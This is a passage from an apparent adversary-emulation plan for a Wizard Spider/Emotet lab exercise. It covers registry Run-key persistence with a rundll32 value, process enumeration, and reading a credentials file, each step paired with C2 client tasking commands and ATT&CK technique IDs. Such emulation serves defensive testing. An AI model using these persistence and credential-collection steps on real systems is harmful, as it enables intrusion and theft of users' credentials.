 
## Step 2 - Emotet Persistence

Wizard Spider establishes registry persistence by adding the registry key:

Path: `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`

Key: `blbdigital`

Value: `rundll32.exe %userprofile%\Ygyhlqt\Bx5jfmo\R43H.dll,Control_RunDLL`

The registry key is written using the `RegSetValueExA` WinAPI function.

---

### ☣️ Procedures

Open a horizontal terminal tab (right-click split horizontally).

Copy/paste the command in your lower terminal tab:

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 1
```
| TTP | Notes |
| -------- | ------- |
| T1547.001  | WizardSpider uses registry keys to install persistance. |


## Step 3 - Emotet Host Discovery and Credential Collection

Wizard Spider first enumerates local processes using WinAPI functions: `CreateToolhelp32Snapshot` and `Process32First`.

Wizard Spider then reads a text file that contains credentials for another user, <bill@oz.local>, which will be used in the next step.

---

### ☣️ Procedures

Enumerate processes.

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```

[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/hostdiscovery.cpp#L172)


```bash
./evalsC2client.py --set-task DESKTOP-9IA6T0M_BA673852 "read C:\\Users\\Public\\Documents\\donotshare.txt"
```
| TTP | Notes |
| -------- | ------- |
| T1057  | WizardSpider does process discovery |
| T1552.001  | WizardSpider scrapes credentials from local files |
